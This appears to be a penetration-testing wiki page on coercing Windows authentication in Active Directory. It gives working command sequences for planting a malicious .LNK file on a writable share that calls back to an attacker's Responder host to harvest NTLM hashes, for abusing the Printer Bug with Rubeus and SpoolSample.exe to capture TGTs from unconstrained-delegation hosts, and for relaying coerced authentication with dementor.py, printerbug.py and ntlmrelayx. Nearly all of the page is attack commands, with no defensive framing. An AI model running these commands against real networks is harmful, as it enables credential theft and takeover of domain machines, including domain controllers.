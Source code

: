 # Coercing Authentication

### Harvest NTLMv2/v1 credentials if you have write-access to a share.

1\. Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

2\. Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

3\. After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

### The Printer Bug&#x20;

If a machine that we have compromised is configured with [unconstrained delegation](../../../tactics/credential\_access/steal-or-forge-kerberos-tickets/delegation/unconstrained-delegation.md) we are able to capture any of the TGTs from machines/accounts that have authenticated to it. If we're able to obtain a TGT from a machine account, we can craft service tickets and obtain administrative access to it - this also works for domain controllers.&#x20;

It should be noted that in order to successfully exploit the printer bug, we must have already obtained a session as or valid domain user credentials.&#x20;

#### SpoolSample.exe

1\. We first need to monitor for any new TGTs on the system that has unconstrained delegation configured. Rubeus provides us with the handy functionality to accomplish this:

```bash
.\Rubeus.exe monitor /targetuser:$machineaccount /interval:5 /nowrap
```

2\. We can then execute `SpoolSample.exe` on the host to coerce authentication:

```bash
.\SpoolSample.exe $target $attacker
```

3\. After running `SpoolSample.exe` we should then aobserve a TGT on the attacker controlled system.

#### Remotely Exploiting the Printer Bug

Alternatively, we can accomplish this same exploitation path remotely using Impacket's ntlmrelayx to relay the credentials:

```bash
# Exploiting the Printerbug with Dementor.py
dementor.py -d $domain -u $username -p $password $attackerip $targetfqdn

# Exploiting the Printerbug with Printerbug.py
python printerbug.py $domain/$username:$password@$targetfqdn $attackerip

# Relay the authentication attempt to the target server
 ntlmrelayx.py -smb2support -t smb://$target
```

### References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py" %}

{% embed url="https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py" %}

{% embed url="https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack/" %}

{% embed url="https://twitter.com/mpgn_x64/status/1453018750253424643?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1453018750253424643%7Ctwgr%5E8b8f7eedaf8bb13b607a524f5b0ba977c31a46c0%7Ctwcon%5Es1_&ref_url=https%3A%2F%2Fcdn.iframe.ly%2FEsKWvl5%3Fapp%3D1" %}
